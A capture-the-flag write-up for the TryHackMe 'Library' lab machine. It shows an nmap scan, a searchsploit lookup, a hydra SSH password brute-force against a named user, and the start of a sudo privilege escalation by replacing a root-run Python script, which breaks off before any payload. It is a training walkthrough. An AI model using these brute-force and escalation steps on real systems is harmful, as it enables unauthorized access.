







# 🏴 TryHackMe - Library

> ⚠️ Disclaimer: This write-up does **not** include flags or exact answers, only methodology and learning process, in respect of TryHackMe rules.

---

## 🔍 Recon
>ip addreess 10.10.150.97

### Nmap Scan
```bash
nmap -sC -sV -oN Nmap/initial -p- 10.10.150.97
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-31 05:32 EDT
Nmap scan report for 10.10.150.97
Host is up (0.053s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to  Blog - Library Machine
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.17 seconds
```
Posted on June 29th 2009 by *meliodas* - 3 comments, maybe this is a hint


Nothing there
Let's try to find some exploits, first searchsploit 
```bash 
┌──(robert㉿kali)-[~/Documents/THM_Challenges/Library]
└─$ searchsploit 'Apache 2.4.18';
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution                  | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner                | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escal | linux/local/46676.php
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                                 | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                              | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow             | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (1)       | unix/remote/764.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)       | unix/remote/47080.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal              | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                                | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                              | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)                        | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)                     | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code Execution | linux/remote/34.pl
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Let's try with this one


**Bad path, the exploit cannot be used, let's try with brude force, maybe is working **

### Brute Force with hydra
We know that a tha user **meliodas** posted on the website
Also the robots.txt was used in the website 


```bash 
──(robert㉿kali)-[~/Documents/THM_Challenges/Library]
└─$ hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.150.97 -t 32 -vV 
-l usernames.txt: Points to the user name
-P passwords.txt: Specifies our password dictionary file
ssh://localhost: Targets the SSH service on this machine
-t 32: Controls speed by limiting to 32 simultaneous attempts
-vV: Shows detailed progress in the terminal
```
We have the password



Here we go, found the user flag



### Escalate Privilegions

```bash
meliodas@ubuntu:/$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
>(ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py

```bash 
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

After some time i found the solution, we can just remove the file and to create a new one
With the new file we will have rights to edit

```bash
meliodas@ubuntu:~$ ls -l
total 8
-rw-rw-r-- 1 meliodas meliodas 34 Aug 31 03:40 bak.py
-rw-rw-r-- 1 meliodas meliodas 33 Aug 23  2019 user.txt
```
